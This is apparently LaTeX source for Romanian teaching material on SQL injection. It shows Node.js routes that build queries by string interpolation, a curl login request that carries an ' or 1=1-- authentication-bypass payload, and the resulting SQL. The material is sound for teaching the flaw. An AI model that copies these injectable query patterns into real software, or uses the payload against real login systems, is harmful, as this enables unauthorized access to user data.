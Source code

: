 \documentclass[12pt, a4paper]{report}
\begin{document}
\lstset{language=JavaScript}
\begin{lstlisting}
app.post('/login', async (req, res) => {
    const username = req.body.username
    const password = req.body.password

    try {
        const result = await connection.execute(
            `SELECT *
                FROM dbahrim.app_users
                WHERE username = '${username}' and userpassword = '${password}'`,
        );

        if (result.rows.length > 0) {
            res.end("Success");
        } else {
            res.end("Failure");
        }
    } catch (e) {
        res.json(e).end()
    }
})
\end{lstlisting}

Codul va face un simplu SELECT, dacă se găsește un row cu detaliile 
introduse este considerată o operațiune cu succes.

Întrucât nicio dată de intrare nu este validată, un atacator poate să dea ce date vrea el, 
deci poate introduce caractere speciale pentru baza de date ca să manipuleze request-ul și să treacă de validare.

De exemplu

\lstset{language=bash}
\begin{lstlisting}
curl --request POST \
  --url http://localhost:3000/login \
  --header 'content-type: application/json' \
  --data '{
  "username": "'\'' or 1=1--",
  "password": "dfgdfgdfgfdgfdgdfg"
}'
\end{lstlisting}

Codul se traduce in script SQL în

\lstset{language=SQL}
\begin{lstlisting}
  SELECT *
  FROM dbahrim.app_users
  WHERE username = ''\'' or 1=1-- and userpassword = '<VALUE>';
\end{lstlisting}

Astfel, atacatorul poate să comenteze o porțiune de verificare prin folosirea
`--` și să adauge o condiție care mereu va fi adevarată `1=1`.

De asemenea, putem folosii SQL Injection pentru a face rost de informații
specifice bazei de date, ca după să putem găsii alte exploit-uri.
Considerăm următorea porțiune de cod care ar fi returnat username-ul unui utilizator.

\lstset{language=JavaScript}
\begin{lstlisting}
app.get('/users/:id', async (req, res) => {
    const id = req.params.id
    try {
        const query = `SELECT username
                FROM dbahrim.app_users
                WHERE id_user = '${id}'`
        console.log(query)
        const result = await connection.execute(
            query,
        );
        res.json(result.rows).end()
    } catch (e) {
        res.json(e).end()
    }
})
\end{lstlisting}
\end{document}
